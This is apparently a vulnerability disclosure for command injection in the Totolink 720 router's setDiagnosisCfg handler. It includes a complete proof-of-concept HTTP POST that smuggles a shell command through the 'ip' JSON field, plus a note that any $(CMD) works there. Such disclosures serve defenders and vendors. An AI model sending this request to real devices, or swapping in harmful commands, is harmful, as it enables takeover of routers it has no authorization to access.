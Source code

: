 Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  
Analysis Report: 
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  

POC：  
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID=2:1591951611:2
Connection: close

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}
